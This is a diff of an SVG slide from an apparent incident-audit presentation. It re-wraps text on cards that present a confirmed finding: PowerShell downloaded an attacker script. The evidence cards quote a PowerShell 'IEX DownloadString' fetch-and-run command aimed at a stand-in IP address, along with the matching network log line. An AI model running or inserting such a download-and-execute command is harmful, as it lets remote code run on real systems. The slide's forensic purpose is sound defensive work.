

<svg xmlns="http://www.w3.org/2000/svg" width="1920" height="1080" viewBox="0 0 1920 1080">
  <defs>
    <filter id="shadow" x="-30%" y="-30%" width="160%" height="160%">
      <feDropShadow dx="0" dy="22" stdDeviation="24" flood-color="#000" flood-opacity="0.35" />
    </filter>
    <pattern id="grid" width="52" height="52" patternUnits="userSpaceOnUse">
      <path d="M 52 0 L 0 0 0 52" fill="none" stroke="#1c313a" stroke-width="1" />
    </pattern>
  </defs>
  <rect width="1920" height="1080" fill="#081016" />
  <rect width="1920" height="1080" fill="url(#grid)" opacity="0.30" />
  <circle cx="1560" cy="150" r="390" fill="#45d4c8" opacity="0.10" />
  <circle cx="120" cy="1040" r="420" fill="#f2b760" opacity="0.07" />
  <text x="78" y="70" font-family="Menlo, Consolas, monospace" font-size="20" fill="#45d4c8" letter-spacing="2">AUDIT TRAIL</text>
  <text x="1720" y="70" font-family="Menlo, Consolas, monospace" font-size="20" fill="#a9bdc2">05/08</text>
  <line x1="78" y1="96" x2="1842" y2="96" stroke="#2e4350" stroke-width="2" />
  <text x="78" y="180" font-family="Inter, Helvetica, Arial, sans-serif" font-size="62" font-weight="850" fill="#eff8f7">Surviving claims point to</text>
  <text x="78" y="244.48" font-family="Inter, Helvetica, Arial, sans-serif" font-size="62" font-weight="850" fill="#eff8f7">evidence.</text>
  <g>
    <rect x="92" y="390" width="560" height="138" rx="18" fill="#111b23" stroke="#75d38a" stroke-width="2" filter="url(#shadow)" />
    <text x="122" y="438" font-family="Menlo, Consolas, monospace" font-size="26" font-weight="800" fill="#75d38a">CLAIM-009 · CONFIRMED</text>
-     <text x="122" y="482" font-family="Inter, Helvetica, Arial, sans-serif" font-size="23" fill="#eff8f7">PowerShell downloaded attacker script</text>
+     <text x="122" y="478" font-family="Inter, Helvetica, Arial, sans-serif" font-size="21" font-weight="500" fill="#eff8f7">PowerShell downloaded attacker</text>
+     <text x="122" y="502.36" font-family="Inter, Helvetica, Arial, sans-serif" font-size="21" font-weight="500" fill="#eff8f7">script</text>
  </g>
  <g>
    <rect x="92" y="568" width="560" height="138" rx="18" fill="#111b23" stroke="#45d4c8" stroke-width="2" filter="url(#shadow)" />
    <text x="122" y="616" font-family="Menlo, Consolas, monospace" font-size="26" font-weight="800" fill="#45d4c8">EVIDENCE A · powershell.log:2</text>
-     <text x="122" y="660" font-family="Inter, Helvetica, Arial, sans-serif" font-size="23" fill="#eff8f7">IEX DownloadString('http://203.0.113.77/a.ps1')</text>
+     <text x="122" y="656" font-family="Inter, Helvetica, Arial, sans-serif" font-size="21" font-weight="500" fill="#eff8f7">IEX</text>
+     <text x="122" y="680.36" font-family="Inter, Helvetica, Arial, sans-serif" font-size="21" font-weight="500" fill="#eff8f7">DownloadString('http://203.0.113.77/a.ps1')</text>
  </g>
  <g>
    <rect x="92" y="746" width="560" height="138" rx="18" fill="#111b23" stroke="#45d4c8" stroke-width="2" filter="url(#shadow)" />
    <text x="122" y="794" font-family="Menlo, Consolas, monospace" font-size="26" font-weight="800" fill="#45d4c8">EVIDENCE B · network.log:1</text>
-     <text x="122" y="838" font-family="Inter, Helvetica, Arial, sans-serif" font-size="23" fill="#eff8f7">powershell.exe -&gt; 203.0.113.77 /a.ps1</text>
+     <text x="122" y="834" font-family="Inter, Helvetica, Arial, sans-serif" font-size="21" font-weight="500" fill="#eff8f7">powershell.exe -&gt; 203.0.113.77</text>
+     <text x="122" y="858.36" font-family="Inter, Helvetica, Arial, sans-serif" font-size="21" font-weight="500" fill="#eff8f7">/a.ps1</text>
  </g>
  <rect x="830" y="390" width="860" height="494" rx="18" fill="#111b23" stroke="#2e4350" stroke-width="2" filter="url(#shadow)" />
  <text x="878" y="462" font-family="Inter, Helvetica, Arial, sans-serif" font-size="34" font-weight="850" fill="#eff8f7">Receipt fields judges can inspect</text>
  <text x="878" y="540" font-family="Menlo, Consolas, monospace" font-size="27" fill="#a9bdc2">file: powershell.log</text>
  <text x="878" y="582" font-family="Menlo, Consolas, monospace" font-size="27" fill="#a9bdc2">line: 2</text>
  <text x="878" y="624" font-family="Menlo, Consolas, monospace" font-size="27" fill="#a9bdc2">parser: powershell</text>
  <text x="878" y="666" font-family="Menlo, Consolas, monospace" font-size="27" fill="#a9bdc2">sha256: 618bf98d...</text>
  <text x="878" y="708" font-family="Menlo, Consolas, monospace" font-size="27" fill="#a9bdc2">tool_call_id: TOOL-003</text>
  <text x="878" y="750" font-family="Menlo, Consolas, monospace" font-size="27" fill="#a9bdc2">verifier: cross-supported</text>
  <g>
-     <rect x="78" y="938" width="1764" height="100" rx="16" fill="#050c12" opacity="0.78" stroke="#2e4350" stroke-width="2" />
-     <text x="112" y="982" font-family="Inter, Helvetica, Arial, sans-serif" font-size="27" font-weight="750" fill="#eff8f7">Receipts bind findings to files, lines, hashes, and tool</text>
-     <text x="112" y="1012.24" font-family="Inter, Helvetica, Arial, sans-serif" font-size="27" font-weight="750" fill="#eff8f7">calls.</text>
+     <rect x="96" y="930" width="1500" height="98" rx="16" fill="#050c12" opacity="0.82" stroke="#2e4350" stroke-width="2" />
+     <text x="132" y="974" font-family="Inter, Helvetica, Arial, sans-serif" font-size="25" font-weight="750" fill="#eff8f7">Receipts point to files and tool calls.</text>
  </g>
</svg>
